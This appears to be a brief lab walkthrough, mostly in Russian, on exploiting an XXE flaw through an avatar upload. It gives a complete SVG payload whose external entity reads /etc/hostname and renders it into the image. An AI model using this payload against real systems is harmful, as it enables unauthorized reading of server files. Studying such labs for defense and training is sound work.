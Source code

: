 ## Exploiting XXE via image file upload
1. Находим что в комментариях можно указывать аватар
2. Создаем картинку, на которой бы рисовалось содержимое файла: 
```<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>```

3. Оставляем комментарий. На картинке видим ответ.